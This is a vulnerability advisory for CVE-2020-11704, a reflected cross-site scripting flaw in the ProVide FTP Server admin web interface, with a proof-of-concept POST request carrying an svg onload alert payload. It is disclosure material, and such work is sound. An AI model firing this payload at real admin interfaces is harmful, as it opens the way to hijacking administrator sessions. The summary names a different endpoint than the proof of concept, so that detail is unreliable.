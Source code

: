 ```yaml
---
layout: default
grand_parent: ProVide FTP Server for Windows
nav_order: 2
parent: CVE-2020-11704 - Multiple XSS in Web Admin Interface
title: Reflected XSS in /ajax/GetUserInfo
---
```


# GetUserInfo - Reflected Cross-Site-Scripting via POST data manipulation

## Summary

The application does not consistently validate client side input, and as a result of this it was identified that the web application was vulnerable to Reflected Cross-Site Scripting.

## VulDB-Like Summary

A vulnerability has been found in the Admin Web Interface of ProVide FTP Server (formerly zFTP) for Windows up to v13.1. It has been declared as problematic. Affected by this vulnerability is an unknown part of the file /ajax/GetInheritedProperties. The manipulation of the username with the input value `%5B<svg+onload="javascript:alert(1)">%5D` leads to a cross site scripting vulnerability. The CWE definition for the vulnerability is CWE-79. As an impact it is known to affect integrity. An attacker might be able to inject arbitrary html and script code into the web site. This would alter the appearance and would make it possible to initiate further attacks against site visitors.

The weakness was disclosed 04/06/2020 by Alessandro Magnosi (deadc0de) (GitHub Repository). It is possible to read the advisory at github.com. This vulnerability is known as CVE-2020-11704. The attack can be launched remotely. The exploitation doesn't need any form of authentication. Technical details of the vulnerability are known, but there is no available exploit.

## Proof-of-Concept

**Sample affected URLs:**

* https://provide.ftp.local:8443/ajax/GetUserInfo

**Sample request**

```
POST /ajax/GetUserInfo HTTP/1.1
Host: provide.ftp.local:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: it-IT,it;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 45
Origin: https://provide.ftp.local:8443
Connection: close
Referer: https://provide.ftp.local:8443/
Cookie: ProVideAdminSessionID=6FVPFDvS2vGCaWX

<svg+onload="javascript:alert('xss')">
```

## Remediation

No official fix has been released to mitigate this vulnerability.

## References

* https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) 
* https://www.google.com/intl/en/about/appsecurity/learning/xss/ 
* https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet 
